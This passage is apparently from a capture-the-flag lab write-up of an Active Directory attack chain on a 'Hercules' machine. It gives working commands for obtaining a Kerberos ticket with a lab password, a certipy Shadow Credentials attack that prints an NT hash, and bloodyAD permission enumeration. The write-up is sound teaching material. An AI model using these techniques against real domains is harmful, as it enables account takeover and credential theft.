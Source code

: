 **Prerequisites:**
- Write access to target user's `msDS-KeyCredentialLink` attribute
- Active Directory Certificate Services (ADCS) must be present

### Attack Chain: natalie.a → bob.w → auditor

**Step 1: Get Kerberos TGT for natalie.a**

```
# Authenticate to get ticket
impacket-getTGT 'HERCULES.HTB/natalie.a:Prettyprincess123!' -dc-ip 10.10.11.91

# Export ticket
export KRB5CCNAME=$(pwd)/natalie.a.ccache

# Verify ticket
klist
```

**Step 2: Shadow Credentials on bob.w**

```
# Attack bob.w with shadow credentials
certipy-ad shadow auto -u natalie.a@hercules.htb -p 'Prettyprincess123!' \
  -dc-ip 10.10.11.91 -target dc.hercules.htb -account bob.w \
  -dc-host dc.hercules.htb

# Output:
# - bob.w.pfx (certificate)
# - bob.w.ccache (Kerberos ticket)
# - NT hash: 8a65c74e8f0073babbfac6725c66cc3f
```

**Learning Point:** The `shadow auto` command:
1. Generates a self-signed certificate
2. Adds the certificate to bob.w's `msDS-KeyCredentialLink`
3. Requests a TGT using certificate authentication (PKINIT)
4. Extracts the NT hash from the TGT

**Step 3: Enumerate bob.w's Permissions**

```
export KRB5CCNAME=$(pwd)/bob.w.ccache

# Check what bob.w can modify
bloodyAD -d hercules.htb -u bob.w --host dc.hercules.htb -k get writable
```

**Expected:** bob.w has write permissions on multiple OUs including Security Department.

**Step 4: Move Auditor to Web Department**

**Why move Auditor?** The permissions structure requires Auditor to be in Web Department OU for `natalie.a` to have write access to its `msDS-KeyCredentialLink`.

**Configure Kerberos:**
```
sudo tee -a /etc/krb5.conf > /dev/null << 'EOF'
[realms]
    HERCULES.HTB = {
        kdc = dc.hercules.htb
        admin_server = dc.hercules.htb
    }

[domain_realm]
    .hercules.htb = HERCULES.HTB
    hercules.htb = HERCULES.HTB
EOF
```

